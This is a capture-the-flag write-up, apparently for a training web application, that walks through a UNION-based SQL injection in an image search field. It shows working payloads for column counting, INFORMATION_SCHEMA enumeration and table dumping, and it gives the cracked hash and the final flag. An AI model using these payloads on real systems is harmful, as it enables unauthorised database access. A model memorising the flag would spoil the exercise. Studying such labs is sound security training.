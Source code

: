 # SQL Injection Vulnerability in Image Input Field<

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

## How we find it ?

**Location:** `page=searchimg`

**Step 0:**

write `1` in the input field; an SQL result will be thrown, which means that the `image input` field is vulnerable to SQL injectionß

```sql
ID: 1
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

```

**Step 1:** try to write `74 or true` SQL Statement in saerch image input field:

**Result:**
the original SQL query is not properly sanitized or parameterized, the injected code might be incorporated into the WHERE clause as
SELECT \* FROM <images_table_name> WHERE id = 74 or true;
In this injected code, 74 or true manipulates the WHERE clause of the original query to always return true, effectively bypassing any conditions intended to restrict the results.

```sql
ID: 74 or true
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 74 or true
Title: 42 !
Url : https://fr.wikipedia.org/wiki/Fichier:42

ID: 74 or true
Title: Google
Url : https://fr.wikipedia.org/wiki/Logo_de_Go

ID: 74 or true
Title: Earth
Url : https://en.wikipedia.org/wiki/Earth#/med

ID: 74 or true
Title: Hack me ?
Url : borntosec.ddns.net/images.png

```

**Step 2 :**

In SQL injection attacks, knowing the number of columns in a SQL query can be important for constructing a SQL statement that doesn't break the syntax or structure of the original query. Additionally, if we want to use the UNION clause to combine other queries into the original, this condition should be fulfilled: Every SELECT statement within UNION must have the same number of columns.
We can use the `union-based` SQL injection technique to select more and more null values until the query is correct.
The UNION operator is used to combine the result sets of two or more SELECT statements.

```sql

SELECT _column_name(s)_ FROM _table1_ UNION SELECT _column_name(s)_ FROM _table2_;
Every SELECT statement within UNION must have the same number of columns.
The columns must also have similar data types.
The columns in every SELECT statement must also be in the same order.

```

```sql

74 or 1=1 UNION SELECT null; -- not working
74 or 1=1 UNION SELECT null,null; -- This works.
74 or 1=1 UNION SELECT null,null,null; -- not working
```

**Step 3 :** use the information_schema database

`INFORMATION_SCHEMA` is a database within each MySQL instance, the place that stores information about all the other databases, contains several read-only tables, and not perform INSERT, UPDATE, or DELETE operations on them.
You can use queries against the information_schema database to retrieve information about the database server, such as:

- Listing databases and their properties (SCHEMATA table).
- Listing tables in a database (TABLES table).
- Listing columns in a table (COLUMNS table).
- Listing indexes in a table (STATISTICS table).
- Listing privileges that users have (SCHEMA_PRIVILEGES, TABLE_PRIVILEGES, COLUMN_PRIVILEGES tables).

```sql
74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables

```

```sql
ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
Title: BASE TABLE
Url : db_default

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
Title: BASE TABLE
Url : users

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
Title: BASE TABLE
Url : guestbook

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
Title: BASE TABLE
Url : list_images

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
Title: BASE TABLE
Url : vote_dbs

```

Here's a breakdown of what's happening:

- The original query appears to be something like
  ```sql
  SELECT column1, column2 FROM table_name WHERE ID = ''
  ```
- The injection starts with 74 or 1=1 which is always true (1=1), effectively bypassing any ID-based filtering in the original query.
- Then, we perform a UNION with another SELECT statement that retrieves TABLE_NAME and TABLE_TYPE columns from the INFORMATION_SCHEMA.tables.
- The retrieved table names `db_default`, `users`,` guestbook`, `list_images`,` vote_dbs`
  the value BASE TABLE in the TABLE_TYPE column indicates that the table is a regular, user-created table, not a view or a system table
  and as its a search filed on images we will be intrested on retrieving data from the list_image table

```sql
 74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS
```

```sql
ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS
Title: id
Url : list_images

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS
Title: url
Url : list_images

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS
Title: title
Url : list_images

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS
Title: comment
Url : list_images

```

we tried :

```sql
74 or 1=1 union select id, url  from list_images
74 or 1=1 union select  title, comment from list_images


```

After testing these series of SQL injection attempts, we observed that the flag appeared in the final query. In the seconf query
the result shows :

```sql
ID: 74 or 1=1 union select  title, comment from list_images
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?

```

The instruction indicates that to verify this password, one should decrypt it, convert all characters to lowercase, and then apply the SHA256 hashing algorithm.
using : https://www.dcode.fr/identification-chiffrement to execute the instructions

decrypt MD5(1928e8083cf461a51303633093573c46) :`albatroz`
lowercase the dycrepted value: `albatroz`
SHA256(albatroz): `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

the flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

**Resources:**

information_shema:

- https://dev.mysql.com/doc/mysql-infoschema-excerpt/8.3/en/information-schema-introduction.html

MySQL Injection:

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md
- https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection
- https://portswigger.net/web-security/sql-injection

dCode:

- https://www.dcode.fr/identification-chiffrement
